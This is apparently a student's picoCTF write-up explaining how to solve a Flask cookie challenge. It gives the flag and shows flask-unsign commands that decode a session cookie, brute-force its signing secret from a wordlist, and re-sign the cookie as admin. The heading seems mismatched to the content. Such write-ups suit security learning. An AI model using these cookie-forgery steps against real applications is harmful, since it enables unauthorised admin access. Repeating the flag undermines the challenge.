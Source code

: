 # where are the robots

**Flag:** `picoCTF{pwn_4ll_th3_cook1E5_22fe0842}`

Approach

- step 1<br>
For this challenge we install the flask-unsign which helps in bruteforcing the secret key for a Flask cookie.

- step 2<br>
We also pick the cookie names for the secret key from the server.py file and put them in a txt file in a vertical list format without any other characters.

- step 3<br>
Then we go to the page to the storage tab and copy the token name eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Zyt5KA.N_zNpJvn8zKUHNx9lXG4tBmmORM to get the key.

- step 4<br>
Then we decode the signed token using the --decode arguement.

```bash
flask-unsign --decode --cookie  'eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Zyt5KA.N_zNpJvn8zKUHNx9lXG4tBmmORM'
{'very_auth': 'blank'}
```
- step 5<br>
Then we use the brute forcer to find the secret key of the cookie.

```bash
 flask-unsign --unsign --cookie  'eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Zyt5KA.N_zNpJvn8zKUHNx9lXG4tBmmORM' --wordlist cookies.txt
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'peanut butter'
```
- step 6<br>
Now since we have found the secret key we can sign the key again by giving the payload as admin instead of blank.

```bash
glaiz@glaiz-Victus-by-HP-Gaming-Laptop-15-fa0xxx:~$ flask-unsign --sign --cookie '{"very_auth": "admin"}' --secret "peanut butter"
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZyuNlg.h4wE3S6pVYqfx9I4lRht955HmQc
 
```


![](https://github.com/adityachawla005/cryptonite_taskphase_Aditya/raw/main/TP2/Web%20Exploitation/assets/flask.png)



What you learned through solving this challenge:
<br>
- I learnt about the concept of hashing and how a flask cookie is signed using a secret key.I also learnt about the different parts of a JWT token like payload and header.


Other incorrect methods you tried:
<br>
- Tried using Hashcat,but couldnt implement it properly due to NVIDIA CUDA issue.


References
<br>
- [Cracking a Flask Cookie](https://www.youtube.com/watch?v=hjs7XjDyycI)
